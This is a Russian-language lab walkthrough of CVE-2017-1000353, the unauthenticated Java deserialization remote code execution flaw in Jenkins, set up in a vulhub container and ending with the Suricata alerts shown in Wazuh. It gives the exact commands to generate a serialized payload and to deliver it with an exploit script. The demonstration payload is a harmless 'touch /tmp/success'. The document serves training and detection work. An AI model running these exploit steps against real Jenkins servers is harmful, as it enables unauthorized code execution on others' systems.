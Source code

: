 # CVE-2017-1000353

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2017-1000353](https://nvd.nist.gov/vuln/detail/CVE-2017-1000353)
* [https://www.opencve.io/cve/CVE-2017-1000353](https://www.opencve.io/cve/CVE-2017-1000353)

Jenkins версий 2.56 и более ранних, а также 2.46.1 LTS и более ранних уязвимы для удаленного выполнения кода без проверки подлинности. Уязвимость удаленного выполнения кода без аутентификации позволяла злоумышленникам передавать сериализованный Java-объект SignedObject в интерфейс командной строки Jenkins, который затем десериализовался с использованием нового ObjectInputStream в обход существующего механизма защиты на основе черного списка.

### Экслуатация уязвимости

> Контейнер с уязвимой средой находится в директории /home/user/Hackathon/vulhub-master/jenkins/CVE-2017-1000353

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

После успешного запуска по адресу http://ваш-ip:8080/ будет доступна страница Jenkins

<figure><img src="../../.gitbook/assets/cve-2017-1000353(1).png" alt=""><figcaption></figcaption></figure>

Для реализации данной уязвимости нужно сгенерировать полезную нагрузку с помощью этого [файла](https://github.com/vulhub/CVE-2017-1000353/releases/download/1.1/CVE-2017-1000353-1.1-SNAPSHOT-all.jar)

```
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "touch /tmp/success"
```

<figure><img src="../../.gitbook/assets/cve-2017-1000353(2).png" alt=""><figcaption></figcaption></figure>

Далее с помощью [эксплоита](https://github.com/vulhub/CVE-2017-1000353/blob/master/exploit.py) доставить полезную нагрузку&#x20;

```
python3 exploit.py http://ваш-ip:8080 jenkins_poc.ser
```

<figure><img src="../../.gitbook/assets/cve-2017-1000353(3).png" alt=""><figcaption></figcaption></figure>

В результате эксплуатации был создан файл /tmp/success&#x20;

<figure><img src="../../.gitbook/assets/cve-2017-1000353(4).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/cve-2017-1000353(5).png" alt=""><figcaption></figcaption></figure>
